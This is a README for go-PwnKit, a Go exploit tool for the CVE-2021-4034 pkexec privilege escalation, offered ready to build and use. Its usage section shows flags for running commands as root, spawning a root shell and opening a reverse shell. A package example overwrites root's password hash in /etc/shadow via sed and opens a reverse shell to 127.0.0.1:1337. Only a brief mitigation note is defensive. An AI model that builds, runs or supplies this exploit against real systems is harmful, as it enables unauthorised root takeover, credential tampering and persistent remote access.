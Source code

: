 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root
  -r string
        Optionally open a reverse-shell instead. Format: ip:port
  -s    Spawn a root shell
```

The exploit can either be used with a command (`-c`), as a reverse-shell (`-r`) or spawn a root shell (`-s`).



```
$> ./exploit -s
sh-5.1#
```



#### As package

```go
package main

import (
    "github.com/OXDBXKXO/go-PwnKit"
)

func main() {
    // Command use syscall.ForkExec to run command as root in a separate process
    gopwnkit.Command(`sed -i -e 's,^root:[^:]\+:,root:$6$eymNRCK.KxwDM6vu$idH0swGW1nsnLb8fT1QibUho5xg7uGJT7fuiheLZHIi9M4gTSk0qIOlUIk2Mm9/Nz5C.T4GkgkmLcK5BtOPkS0:,' etc/shadow`)

    // RevShell use syscall.ForkExec to open TCP connection in a separate process which survives end of main program
    gopwnkit.RevShell("127.0.0.1:1337")
}

```



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.

